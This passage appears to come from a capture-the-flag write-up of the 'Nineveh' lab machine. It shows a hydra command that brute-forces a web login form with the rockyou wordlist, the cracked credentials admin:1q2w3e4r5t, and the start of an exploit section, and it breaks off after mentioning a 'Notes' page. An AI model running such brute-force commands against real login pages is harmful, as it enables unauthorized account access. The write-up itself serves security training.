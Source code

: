 hydra -l admin -P ~/wordlists/rockyou.txt 10.10.10.43 http-form-post "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -t 64  
![alt text](./img/nineveh10.PNG?raw=true)  

admin:1q2w3e4r5t  
![alt text](./img/nineveh10.PNG?raw=true)  

## Exploit  

Ok, since we have PLENTY of options. let’s click on “Notes”  